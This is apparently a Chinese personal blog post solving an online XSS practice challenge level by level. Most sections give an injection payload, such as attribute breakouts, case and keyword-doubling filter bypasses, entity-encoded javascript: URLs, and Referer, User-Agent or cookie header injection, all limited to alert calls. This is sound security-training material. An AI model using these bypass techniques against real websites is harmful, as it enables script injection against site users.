



# XSS挑战

[TOC]

## 前言

这周二晚上临睡觉前看到了**HACK学习呀**公众号上发了一篇硬文干货不少，之前也一直看这个公众号觉得挺不错的。但是单位电脑没办法看微信，我就登上了官网看，官网里面倒是一般，有一个[XSS挑战](http://xss.tesla-space.com)看着还挺有意思的，之前也做过类似的，既然看到了就再做一遍，这次多琢磨琢磨算是复习一下。

## 题目

第一题

很简单，签到题，直接

```HTML
<script>alert(1);</script>
```

注意Chrome不会弹窗，建议用Firefox。

### 第二、三、四题

这两道题用的是一个思路。看到输出是将尖括号过滤了的

于是一开始我一直在集中精力想怎么用编码绕过。后来突然发现在输入框后面有一个小小的**">**幡然醒悟，原来是要在输入框做弹窗，剩下的就很简单了，第二题

```HTML
"><script>alert(1)</script>
```

第三题，这道题是使用单引号闭合

```HTML
' onclick='alert(1)
```

第四题，这道题是使用双引号闭合

```HTML
" onclick="alert(1)
```

### 第五题

这道题对输入的标签做了过滤，例如会把**script**替换为**scr_ipt**。我试了试用**a标签**发现没有做过滤

```HTML
"><a href = "javascript:alert(1)">
```

但是这个需要点击，感觉效果不是很好，看了别人的解法也是使用**a标签**如果有大佬有其他办法请告诉小弟一声。

### 第六题

这关有点坑，同样是过滤了我能想到的标签们，卡住了很久。看了看别人的方法发现居然前面失效的大小写绕过生效了！唉，大意了每一关的限制居然不是线性的

```HTML
"><ScRIpt>alert(1)</script>
```

### 第七题

这一关的特点就是将输入的script标签过滤为空，一下就联想到了重写绕过

```HTML
"><scrscriptipt>alert(1)</scrscriptipt>
```

### 第八题

这道题明显是在href链接中使用javascript伪协议进行XSS，但是对**javascript**做了过滤。纠结了一会想到浏览器在渲染的时候忽略换行，可以添加换行符号绕过过滤，在对应位置添加%0D%0A之后在URL中输入

```HTML
javascr%0D%0Aipt: alert(1)
```

看别人的方法可以使用实体编码绕过过滤，以为浏览器会解析HTML实体编码生成链接，连接中就会包含XSS语句

```HTML
十进制实体编码：javascrip&#116;:alert(/xss/)
十六进制实体编码：javascrip&#x74;:alert(/xss/)
```

[在线HTML实体编码网址](https://www.qqxiuzi.cn/bianma/zifushiti.php)

### 第九题

这里真的卡住了好久，一通输入之后永远是不合法链接，我开始怀疑是不是这里永远都会显示连接不合法。看了网上的教程，原来是输入连接中必须包含**http**，至于怎么包含只需要根据XML语法在注释里写http就好

```XML
java&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;:alert(1)//http://www.ama666.cn
```

细心的小伙伴可能会发现并访问注释中的网站，一定要来哦

### 第十题

这道题也还算有意思，查看源代码有三个**type为hidden**的隐藏输入，测试只有第三个输入有用，过滤了尖括号。插入XSS代码，注意这里需要更改此输入框type为text，这样才可以点击触发XSS

```XML
&t_link=3214325412342423&t_history=&t_sort=" onclick="alert(1)" type="text">
```

### 第十一、十二、十三题

同样是查看源代码，发现有一个地方出现了根据Referer生成的链接（图片有点小，点开看）



接下来自然而然地想到了抓包修改Referer

```XML
Referer:1" type="text" onclick="alert(1) 
```

下一道题原理是一样的



抓包更改User-Agent

```XML
User-Agent:1"type="text" onclick="alert(1)
```

再下一题是修改cookie

```XML
1"type="text" onclick="alert(1)
```

### 第十六题

这道题会过滤各种script标签的写法，使用img标签会过滤空格，可以使用**%0d**代替空格。

```XML

```

### 第十七、十八题

感觉这两道题还没完善

```XML
&arg01=a&arg02=%20onmouseover=alert(1)
```

## 总结

整体做下来大概花了两个小时不到吧，前面还可以，后面就有一些无聊雷同。还是温习了一些东西，比如%0D%0A代替空格回车、在链接中使用HTML实体编码等等，之前有些忘记了。